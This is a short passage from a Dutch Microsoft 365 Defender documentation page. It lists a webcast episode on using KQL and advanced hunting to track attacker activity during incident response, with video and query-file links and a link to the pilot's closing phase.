|Aflevering 4: Laten we op zoek gaan! KQL toepassen op het bijhouden van incidenten|Tijd om de activiteiten van aanvallers bij te houden! In deze aflevering gebruiken we ons verbeterde inzicht in KQL en geavanceerd zoeken in Microsoft 365 Defender om een aanval bij te houden. Lees enkele tips en trucs die in het veld worden gebruikt om activiteiten van aanvallers bij te houden, waaronder de ABC's van uw pc en hoe u ze kunt toepassen op reactie bij incidenten.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Aflevering 4: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Volgende stap

| <br>[Afsluitende fase en samenvattingsfase](mtp-pilot-close.md)|Analyseer het resultaat van uw Microsoft 365 Defender-testfase, presenteert deze aan uw belanghebbenden en zet de volgende stap.
|:-----|:-----|
